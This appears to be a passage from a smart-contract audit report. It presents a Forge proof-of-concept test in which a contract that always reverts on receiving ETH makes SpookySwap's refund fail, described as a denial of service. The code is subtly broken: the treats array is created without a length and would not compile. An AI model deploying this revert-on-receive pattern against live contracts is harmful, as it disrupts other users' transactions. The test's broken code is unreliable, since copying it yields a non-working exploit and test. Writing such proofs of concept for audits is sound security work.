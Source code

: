 **Proof of Concept:**

The following Forge test demonstrates how a malicious contract can exploit the refund mechanism to cause transaction reverts, leading to a DoS condition.

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test, console2} from "forge-std/Test.sol";
import { SpookySwap } from "../src/TrickOrTreat.sol";

// @notice A contract that always reverts upon receiving ETH to simulate refund failures.
contract MaliciousRefundContract {
    // @notice Attempts to receive ETH but always reverts.
    receive() external payable {
        revert("Cannot receive ETH - DoS Attack!");
    }
}

// @notice Test contract
contract SpookySwapTest is Test {
    SpookySwap spookySwap;

    function setUp() public {
        // Initialize the contract with a sample treat
        SpookySwap.Treat[] memory treats = new SpookySwap.Treat[]();
        treats[0] = SpookySwap.Treat({
            name: "Candy",
            cost: 1 ether,
            metadataURI: "ipfs://Qm..."
        });
        spookySwap = new SpookySwap(treats);
    }

    function testDenialOfServiceInRefund() public {
        MaliciousRefundContract maliciousUser = new MaliciousRefundContract();
        vm.deal(address(maliciousUser), 10 ether);

        // Start impersonating the malicious contract's address
        vm.startPrank(address(maliciousUser));

        // Attempt to purchase a treat with excess ETH to trigger a refund
        // Since the contract cannot receive ETH, the refund should fail
        // Expect the transaction to revert with "Refund failed"
        vm.expectRevert("Refund failed");
        spookySwap.trickOrTreat{value: 2 ether}("Candy");

        // Stop impersonating the malicious contract
        vm.stopPrank();

        // Ensure that no NFT was minted since the transaction reverted
        uint256 finalNextTokenId = spookySwap.nextTokenId();
        assertEq(finalNextTokenId, 1, "No NFT should be minted due to refund failure");

        // Ensure that the contract's balance remains unchanged (only the initial treat setup)
        uint256 contractBalance = address(spookySwap).balance;
        assertEq(contractBalance, 0, "Contract balance should remain zero after failed refund");
    }

}

```
